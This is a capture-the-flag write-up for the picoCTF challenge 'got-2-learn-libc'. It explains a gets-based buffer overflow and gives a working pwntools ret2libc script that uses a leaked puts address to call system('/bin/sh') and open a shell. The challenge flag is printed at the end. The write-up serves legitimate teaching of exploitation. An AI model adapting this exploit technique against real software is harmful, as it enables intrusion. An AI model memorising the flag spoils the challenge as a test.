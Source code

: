 > got-2-learn-libc - Points: 250 - (Solves: 7)
> This program gives you the address of some system calls. Can you get a shell? You can find the program in /problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee on the shell server. Source.

From the title this seems to be a ret-2-libc exploit.

The program takes input to a fixed size buffer of 148 bytes. The input is taken from the `gets` function which takes arbitrary length input.

This mean we can overflow the buffer and overwrite the return address.

From the leaked address we can find out the offset for `system` and use that to get a shell.

We use `https://libc.blukat.me/?q=fflush%3A0xf7608330%2Cputs%3A0xf760a140&l=libc6-i386_2.23-0ubuntu10_amd64` to get the offsets to `/bin/sh`.

We use the puts address and calculate the addresses to `system` and `str_bin_sh` from there.

The offsets from puts are:
- system: -0x24800
- str_bin_sh: 0xf9eeb

Using pwntools we can easily create a script to do that for us.

Playing around a bit with the offset.

We finally find the right offset which is 160.

Our exploit script:

```python
from pwn import *

p = process("/problems/got-2-learn-libc_2_2d4a9f3ed6bf71e90e938f1e020fb8ee/vuln")

p.recvuntil("puts: ")

puts_ad = int(p.recvline().strip(), 16)
system = puts_ad -0x24800
binsh = puts_ad + 0xf9eeb

offset = 160

p.sendline('A'*offset + p32(system) * 2 + p32(binsh))

p.interactive()
```

This gives us a shell and we can simply `cat flag.txt` to get the flag.

Flag: `picoCTF{syc4al1s_4rE_uS3fUl_bd99244d}`
